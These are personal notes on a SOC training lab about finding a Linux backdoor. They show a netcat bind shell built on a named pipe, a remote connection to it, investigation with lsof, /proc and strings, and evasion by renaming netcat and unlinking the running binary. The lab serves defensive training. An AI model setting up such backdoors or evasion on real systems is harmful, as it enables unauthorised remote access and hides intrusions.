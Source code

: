 ```yaml
---
{"dg-publish":true,"permalink":"/bhis-antisyphon-and-webinars/black-hills-soc-core/labs/bhis-socc-lab-linux-cli/"}
---
```


The Lab - [IntroClass/LinuxCLI](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/LinuxCLI/LinuxCLI.md)
Section Notes - [[BHIS Antisyphon and Webinars/BlackHills SOC Core/Topics/SOCC02 - Linux\|SOCC02 - Linux]]
## Linux Lab
In this lab, we're investigating [[Definitions and Topics/backdoor\|backdoors]] on a [[Tool Deep-Dives/Linux/Linux\|Linux]] system. In this write-up, I'm going to separate the commands into three different shell sessions; *Server*, *Adversary*, and *Analyst*, 
1. Configure the "server" to listen for commands from the "client" machine
	1. *Server* terminal^[In the real world, these commands would likely be executed in a malware's payload]
		2. Open a Ubuntu shell and log in as Super User
			1. `sudo su -`
		3. Create a FIFO (first in, first out) [[Tool Deep-Dives/Linux/Named Pipe\|backpipe]]
			1. `mknod backpipe p`
				1. [mknod](https://man7.org/linux/man-pages/man2/mknod.2.html) Creates a named pipe called `backpipe`
		4. Start the backpipe
			1. `/bin/bash 0<backpipe | nc -l 2222 1>backpipe`
				1. Basically creates a netcat listener that forwards all input through a backpipe and then into a bash session, and then passes the output back to the listener ([MITM](https://ccnadefinitions.com/ccna/20-definitions/mitm-on-path/))?
					1. `0` - standard input
					2. `1` - standard output
					3. `2` - error
				2. `nc` = netcat
					1. `-l 2222` = listen on port *2222*
				3. For the backpipe, don't forget that *0* **<** *backpipe*, and *1* **>** *backpipe*
					1. Where a *pipe* is monodirectional, a [[Tool Deep-Dives/Linux/Named Pipe\|Named Pipe]] can move data in any direction want
						1. netcat to backpipe, backpipe to bash, bash to netcat, etc...
						2. infinite loop
		5. At this point, the shell is chilling; the command, running. We need to send it some commands.
	2. *Adversary* terminal
		1. Get your IP address and establish a connection to the *Server*
			1. `ip a`
			2. `nc <your IP address> 2222`
		2. If you connect correctly, it's going to look like it's chilling too; but let's type some commands
			1. `ls`
			2. `whoami`
			3. ![BHIS-SOCC-lab-LinuxCLI.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI.png)
				1. **NOTE**: In this go-through, I changed the backpipe name to `5FTP` to see how it looked, and I hate it.
		3. At this point, we have demonstrated that we have established [[Definitions and Topics/Remote Shell\|Remote Shell]], and are ready to start looking for clues
2. Investigate from the *Analyst* terminal
	1. In the [lab](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/LinuxCLI/LinuxCLI.md), they suggest logging in as Root; this is generally a bad idea in the real world (like logging in as domain admin), and we should be able to accomplish most commands just running them with `sudo`.
	2. Look for network connection processes
		1. `sudo lsof -i -P`
			1. `-i` is internet connections
			2. `-P` port number only (don't guess the service)
			3. ![BHIS-SOCC-lab-LinuxCLI-1.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-1.png)
		2. This shows us the services that look strange; we can dig into a specific process with lowercase `-p`
			1. `lsof -p [process ID]`
				1. In my case, `sudo lsof -p 372`
			2. Shows everything associated with that particular PID
			3. ![BHIS-SOCC-lab-LinuxCLI-2.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-2.png)
	3. Investigate the process files
		2. `cd /proc/[pid]`
		3. `ls`
			1. Everything associated with the memory of the executable *as it resides in memory*
		5. `strings ./exe | less`
			1. Prints out everything that's actively running *in memory*, and we can find netcat below
				1. ![BHIS-SOCC-lab-LinuxCLI-5.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-5.png)
			2. If there's a program with a manual page, you can scroll through and find it with strings/less

 This is where the lab ends in the GitHub repo, but Mr. Strand had a few more tricks to share.
 
### Other ways to avoid detection
1. Rename netcat to anything else
	1. Note, here we used the [[Tool Deep-Dives/Linux/which\|which]] command to quickly locate the [[Tool Deep-Dives/Netcat\|Netcat]] application file.
	2. ![BHIS-SOCC-lab-LinuxCLI-8.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-8.png)
		1. I also took the opportunity to create a new backpipe name, `logfile`, which is still suspicious but not the same as `backpipe`, and renamed [[Tool Deep-Dives/Netcat\|Netcat]] to `netlog`
	3. And now look! A happy little `netlog` has an open connection to the internet, and it's just writing to a `logfile`!
		1. ![BHIS-SOCC-lab-LinuxCLI-9.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-9.png)
		2. ![BHIS-SOCC-lab-LinuxCLI-10.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-10.png)
		3. However, if we run `strings ./exe | less` on it, we still find netcat
			1. ![BHIS-SOCC-lab-LinuxCLI-11.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-11.png)
2. Hiding the file on the system
	1. You could use a . to hide it (`.notevil`), but it's crazier to unlink it (i.e. program running in memory disconnected from program in storage)
		1. e.g., the program in storage was deleted
		2. If you delete the file (`rm notevil`) *while it's running*, it will continue to run *in memory*
	4. How to detect?
		1. `lsof +L1`
			1. Shows all system files running without any links^[It also still shows up in regular `lsof -i -P`, but this just highlights anything that is trying to hide and wouldn't be found in traditional file scans.]
			2. ![BHIS-SOCC-lab-LinuxCLI-12.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-12.png)
		2. Once detected, you can `kill` or `pkill` to end the unlinked process, and kill its access
